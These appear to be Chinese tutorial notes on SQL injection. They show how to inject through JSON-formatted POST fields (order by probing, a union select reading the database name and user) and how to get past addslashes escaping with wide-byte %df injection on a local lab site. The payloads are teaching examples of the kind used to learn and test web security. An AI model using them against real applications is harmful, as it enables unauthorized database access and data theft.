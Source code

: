 ![1645152782742-f0034b99-5dad-4d83-b17b-3cd8b25e925a.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132702807-187043495.png)

JSON

```plain
json型  表现形式不一样，提交数据一样的
{“username”:"admin"}    键名和键值
取数据的时候，只会接收admin的值，不会接收双引号。

数据表现形式
json:
{"username":"admin","password":"xiaodi"}
常规：
username=admin&password=xiaodi

如何注入：
常规：username=admin and 1=1&password=xiaodi
json：{"username":"admin and 1=1","password":"xiaodi"}
json格式，参考：https://baike.baidu.com/item/JSON/2462549?fr=aladdin
```

![1645153512345-20778807-263d-4113-80a9-4deb2e21adc4.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132700938-1903537591.png)

```plain
json提交数据包格式：
```

![1645153801540-8ad55800-4afd-4ada-9e08-0f09954b88d1.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132701044-1324697246.png)

```plain
json注入payload应该怎么构造呢？
这里使用到post提交json={"username":"admin' order by 3#"}
```

![1645154654636-46df1a5d-f17c-470d-a72e-c4f3d9858569.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132700964-8248436.png)

```plain
查询用户和数据库名：
json={"username":"admin' and 1=2 union select 1,database(),user()#"}
```

![1645154839886-b16bf86b-aff4-4bab-b285-68fcc7511c23.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132701371-960386351.png)

------

- 本地靶场-字符转义处理防护-宽字节注入

```plain
SQL注入接收数据，但是数据会出现/ \这种符号
转义函数：addslashes
\n 换行
\n 字符串，但是电脑以为你是换行
对字符串进行转义，\\n进行转义。

%df就可以进行绕过，利用宽字节
原理：利用繁体字或者乱码，来进行占用两个字节。
\ 一个字节
� 两个字节
中文 两个字节
用到了addslashes函数后，再次进行注入的时候
注入payload：http://127.0.0.1:8081/web/news.php?gtpl=simple' order by 17--+
但是实际上的SQL语句执行时候：select * from sy_guestbook where gTpl='simple\' order by 17--+'
对'进行了转义，变成了\'
```
